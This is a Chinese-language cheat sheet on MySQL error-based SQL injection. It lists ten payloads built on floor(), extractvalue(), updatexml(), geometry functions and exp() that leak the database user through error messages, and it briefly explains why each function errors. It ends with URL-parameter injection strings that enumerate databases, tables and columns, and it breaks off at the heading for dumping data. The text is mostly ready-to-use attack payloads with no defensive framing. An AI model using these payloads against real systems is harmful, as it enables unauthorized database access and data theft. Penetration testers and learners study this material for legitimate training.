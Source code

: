 ```bash
```







## **报错注入**

```bash

# 1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

# 2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

# 3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

# 4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

# 5.multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

# 6.polygon()
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

# 7.multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

# 8.linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

# 9.multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

# 10.exp()
select * from test where id=1 and exp(~(select * from(select user())a));
```

**exp() 报错的原理：**exp 是一个数学函数，取e的x次方，当我们输入的值大于709就会报错，然后 ~ 取反它的值总会大于709，所以报错。

**updatexml() 报错的原理：**由于 updatexml 的第二个参数需要 Xpath 格式的字符串，以 ~ 开头的内容不是 xml 格式的语法，concat() 函数为字符串连接函数显然不符合规则，但是会将括号内的执行结果以错误的形式报出，这样就可以实现报错注入了。

**floor()报错的原理：**[Floor报错原理分析 - ka1n4t - 博客园 (cnblogs.com)](https://www.cnblogs.com/litlife/p/8472323.html)



```bash
爆库：
?id=1' and updatexml(1,(select concat(0x7e,(schema_name),0x7e) from information_schema.schemata limit 2,1),1) -- +

爆表：
?id=1' and updatexml(1,(select concat(0x7e,(table_name),0x7e) from information_schema.tables where table_schema='security' limit 3,1),1) -- +

爆字段：
?id=1' and updatexml(1,(select concat(0x7e,(column_name),0x7e) from information_schema.columns where table_name=0x7573657273 limit 2,1),1) -- +

爆数据：
```